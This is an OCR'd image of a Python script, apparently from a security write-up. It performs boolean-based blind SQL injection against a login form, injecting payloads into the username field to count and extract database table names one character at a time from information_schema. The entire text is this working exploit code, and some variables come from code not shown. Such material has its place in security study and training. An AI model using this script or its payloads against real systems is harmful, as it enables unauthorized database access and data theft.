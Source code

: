    ```python

    def sendPayload(payload):
      data = {'username' : payload, 'password' : '1'}
      res = requests.post(url, data = data)
      print(payload)

      return res.text


    ###############
    # Count table #
    ###############
    for i in range(0,30):
        payload = "' or (SELECT COUNT(DISTINCT(table_name)) FROM information_schema.columns WHERE table_schema = '{}') = {}#".format(db_list, i)

        if sendPayload(payload).find("Invalid password") != -1:
            tableCount = i
            print("[*] Table count is {}".format(tableCount))
            break


    ##################
    # Get table name #
    ##################
    tablecount = 0

    while tablecount < tableCount:
        tablenameLen = 0

        # Get table name length
        for i in range(0,40):
            payload = "' or length((SELECT DISTINCT(table_name) FROM information_schema.columns WHERE table_schema = '{}' LIMIT {},1)) = {} #".format(db_list, tablecount, i)

            if sendPayload(payload).find("Invalid password") != -1:
                tablenameLen = i
                print("[*] Table name length is {}".format(tablenameLen))
                break

        for i in range(1, tablenameLen+1):
            for char in chars:
                payload = "' or SUBSTR((SELECT DISTINCT(table_name) FROM information_schema.columns WHERE table_schema = '{}' LIMIT {},1),{},1) = '{}' #".format(db_list, tablecount, i, char)

                if sendPayload(payload).find("Invalid password") != -1:
                    tmp += char
                    print(tmp)
                    break

        result_table_name.append(tmp)
        tmp = ''
        tablecount += 1

    print(result_table_name)
   ```
   